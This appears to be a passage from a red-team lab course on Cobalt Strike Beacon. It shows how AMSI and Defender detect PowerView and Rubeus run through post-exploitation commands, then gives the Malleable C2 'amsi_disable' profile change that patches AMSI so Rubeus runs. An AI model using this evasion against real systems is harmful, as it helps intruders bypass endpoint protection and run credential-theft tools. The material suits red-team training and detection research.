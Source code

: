 The Beacon payload is not the only place AMSI will snatch you, but also in various post-exploitation commands which AMSI can instrument.  To name a few are `powershell`, `powerpick` and `execute-assembly`.  This occurs because Beacon will spawn new processes to execute these commands, and each process gets its own copy of AMSI.
```
beacon> run hostname
fs

beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1

beacon> powershell Get-Domain
[-] lost link to parent beacon: 10.10.123.102

beacon> remote-exec winrm fs Get-MpThreatDetection

PSComputerName                 : fs
ProcessName                    : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
RemediationTime                : 9/14/2022 5:01:18 PM
Resources                      : {amsi:_\Device\HarddiskVolume1\Windows\System32\WindowsPowerShell\v1.0\powershell.exe}
```
  

In this case, the Beacon payload spawned powershell.exe and attempted to load PowerView.ps1 into it.  This was detected by AMSI and killed.  Defender also goes one step further and kills the process that spawned it (our Beacon), which is why we immediately lose the link to it.

The same will happen if we attempt to execute a .NET assembly that is known to Defender.
```

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe
[-] Failed to load the assembly w/hr 0x8007000b
[-] lost link to parent beacon: 10.10.123.102

PSComputerName                 : fs
ProcessName                    : C:\Windows\System32\rundll32.exe
RemediationTime                : 9/14/2022 5:18:35 PM
Resources                      : {amsi:_\Device\HarddiskVolume1\Windows\System32\rundll32.exe}
```

  

It would be a bit of a pain to modify and obfuscate every single post-ex tool, so Cobalt Strike introduced a configuration that we can apply in Malleable C2 called `amsi_disable`.  This uses a memory-patching technique which I have [blogged about](https://rastamouse.me/memory-patching-amsi-bypass/) before to disable AMSI in the spawned process prior to injecting the post-ex capability.

SSH into the team server and open the profile you're using in a text editor (for me, that's webbug.profile).
```
attacker@ubuntu ~/cobaltstrike> vim c2-profiles/normal/webbug.profile
```

  

Right above the `http-get` block, add the following:
```

post-ex {
        set amsi_disable "true";
}
```

  

After modifying a profile, it's always a good idea to check it with c2lint to ensure you didn't break anything.
```

attacker@ubuntu ~/cobaltstrike> ./c2lint c2-profiles/normal/webbug.profile
```

  Warnings are ok, but errors are usually fatal.

  

You will need to restart your team server and re-acquire a Beacon on the file server.  This time, Rubeus will execute.
```

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

   
  v2.1.2 
```

  `amsi_disable` only applies to `powerpick`, `execute-assembly` and `psinject`.  It **does not** apply to the powershell command.

  

However, you'll notice that your Beacon probably still dies shortly thereafter.  This brings us to behavioural detections.
